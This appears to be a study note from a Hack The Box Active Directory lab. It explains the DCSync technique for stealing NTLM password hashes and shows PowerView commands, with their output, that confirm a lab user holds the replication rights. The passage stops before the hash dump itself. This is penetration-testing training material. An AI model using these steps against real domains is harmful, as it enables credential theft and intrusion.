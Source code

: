 Perform DCSync attack : 
DCSync is a technique for stealing the Active Directory password database by using the built-in `Directory Replication Service Remote Protocol`, which is used by Domain Controllers to replicate domain data. This allows an attacker to mimic a Domain Controller to retrieve user NTLM password hashes

The crux of the attack is requesting a Domain Controller to replicate passwords via the `DS-Replication-Get-Changes-All` extended right. This is an extended access control right within AD, which allows for the replication of secret data.

To perform this attack, you must have control over an account that has the rights to perform domain replication (a user with the Replicating Directory Changes and Replicating Directory Changes All permissions set). Domain/Enterprise Admins and default domain administrators have this right by default.
![[adnunn_right_dcsync.webp]]

Using Get-DomainUser to View $USER's Group Membership

```powershell
PS C:\htb> Get-DomainUser -Identity $USER  |select samaccountname,objectsid,memberof,useraccountcontrol |fl

samaccountname     : adunn
"objectsid"          : S-1-5-21-3842939050-3880317879-2865463114-1164
memberof           : {CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Shared Calendar
Read,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Printer Access,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=File Share H Drive,OU=Security
Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
useraccountcontrol : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD

```

#sid
PowerView can be used to confirm that this standard user does indeed have the necessary permissions assigned to their account. We first get the user's SID in the above command and then check all ACLs set on the domain object (`"DC=inlanefreight,DC=local"`) using [Get-ObjectAcl](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainObjectAcl/) to get the ACLs associated with the object. Here we search specifically for replication rights and check if our user `adunn` (denoted in the below command as `$sid`) possesses these rights. The command confirms that the user does indeed have the rights.

```powershell
PS C:\htb> $sid= "S-1-5-21-3842939050-3880317879-2865463114-1164"
PS C:\htb> Get-ObjectAcl "DC=inlanefreight,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-498
ObjectAceType         : DS-Replication-Get-Changes

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-516
ObjectAceType         : DS-Replication-Get-Changes-All

AceQualifier          : AccessAllowed
ObjectDN              : DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ExtendedRight
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1164
ObjectAceType         : DS-Replication-Get-Changes-In-Filtered-Set

AceQualifier          : AccessAllowed
```